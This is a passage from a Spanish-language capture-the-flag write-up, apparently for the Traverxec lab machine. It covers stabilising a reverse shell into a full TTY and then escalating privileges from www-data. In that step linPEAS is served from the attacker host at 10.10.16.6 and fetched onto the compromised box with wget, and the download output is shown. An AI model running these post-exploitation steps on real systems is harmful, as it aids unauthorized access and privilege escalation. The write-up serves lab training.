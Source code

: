 Reiniciamos la shell inversa con:

```text
reset
```

Definimos el tipo de terminal, `xterm` que funciona el 99% de las veces:

```text
> Terminal Type? xterm
```

Ahora habiltamos el clear screen y el movimiento con `xterm` y habilitamos la bash:

```text
export TERM=xterm
export SHELL=bash
```

En otra consola de nuestro host, obtenemos las filas y columnas de la terminal:

```text
stty -a
```

En la shell inversa, configuramos las filas y las columnas, esto arreglará los márgenes de la terminal:

```text
stty rows <num> columns <cols>
```

Ahora confirmamos que estamos en una shell de TTY o PTY con:

```text
tty
```

# Escalada de Privilegios: www-data -> david

## linPEAS

Descargamos linPEAS desde github:

```shell
❯ wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```

Montamos un HTTP listener:

```shell
❯ sudo python3 -m http.server 80
```

Subimos y corremos linPEAS:

```shell
www-data@traverxec:/dev/shm$ wget  10.10.16.6/linpeas.sh
--2021-10-17 18:33:29--  http://10.10.16.6/linpeas.sh
Connecting to 10.10.16.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 477235 (466K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... .......... 10%  160K 3s
    50K .......... .......... .......... .......... .......... 21%  518K 2s
   100K .......... .......... .......... .......... .......... 32%  298K 1s
   150K .......... .......... .......... .......... .......... 42%  422K 1s
   200K .......... .......... .......... .......... .......... 53%  346K 1s
   250K .......... .......... .......... .......... .......... 64%  422K 1s
   300K .......... .......... .......... .......... .......... 75%  328K 0s
   350K .......... .......... .......... .......... .......... 85%  318K 0s
   400K .......... .......... .......... .......... .......... 96%  330K 0s
```